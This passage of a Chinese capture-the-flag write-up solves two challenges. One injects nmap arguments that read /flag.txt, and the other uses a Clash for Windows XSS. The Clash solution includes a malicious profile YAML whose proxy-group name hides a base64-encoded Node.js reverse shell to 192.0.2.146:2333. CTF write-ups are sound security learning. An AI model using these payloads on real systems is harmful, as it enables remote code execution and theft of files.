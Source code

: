 于是解题的思路就是，通过自定义 nmap 参数，从 /flag.txt 中读取目标，然后将扫描结果保存在媒体目录中，接着就可以通过媒体管理器把日志下载下来，里面就有 flag 了

![image](https://vip2.loli.io/2023/10/21/iVELkPQthIHWRwj.jpg)

`-iL /flag.txt -oN /media/usb/114514.jpg`

![image](https://vip2.loli.io/2023/10/21/SJso9YCZKL3m1pn.jpg)

![image](https://vip2.loli.io/2023/10/21/76KeZudqCrI8wDP.jpg)

`flag{soOoo-mANY-LOoPhOLes-in-HOmE-asSisTant}`

## 非法所得

这题目看着看着 👊 就硬了

![image](https://vip2.loli.io/2023/10/21/1PiucR8tSVTfWlv.jpg)

古董版本，今年陆陆续续也有不少的漏洞，例如 [CVE-2023-24205](https://github.com/Fndroid/clash_for_windows_pkg/issues/3891)，不过个人感觉这个洞不好用

![image](https://vip2.loli.io/2023/10/21/Lx3UH81mOoIVdMJ.jpg)

首先先确定一下三个 flag 的位置，flag1 在 `/app/profiles/flag.yml` 中；flag2 在 `/flag_easy` 中，后面被 index.js 加载到内存后，文本中的内容会被替换掉；flag3 在 `/flag` 中，但是权限是 0400 只有 root 用户可读，需要执行 `/readflag` 才能拿到

### Flag 3

是的没错我先做的第三问

参考 https://www.freebuf.com/vuls/323348.html ，这个版本存在 XSS 漏洞

结合电子包（electron）有 XSS 就基本上可以执行系统命令的特性，计划先把系统权限给拿到

在可控的网站中放置下述配置文件

```python
port: 7890
mode: Rule
log-level: info
external-controller: ":9090"
proxies:
  - name: a
    type: socks5
    server: 127.0.0.1
    port: 1926
    skip-cert-verify: true
rules:
  - "DOMAIN-SUFFIX,mihoyo.com,REJECT"
  - "GEOIP,CN,DIRECT"
  - "MATCH,DIRECT"
proxy-groups:
  - name: <img/src='1'/onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCIvYmluL3NoIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgyMzMzLCAiMTkyLjAuMi4xNDYiLCBmdW5jdGlvbigpe2NsaWVudC5waXBlKHNoLnN0ZGluKTtzaC5zdGRvdXQucGlwZShjbGllbnQpOwpzaC5zdGRlcnIucGlwZShjbGllbnQpO30pOw==`,`base64`).toString())'>
    type: select
    proxies:
      - a
```
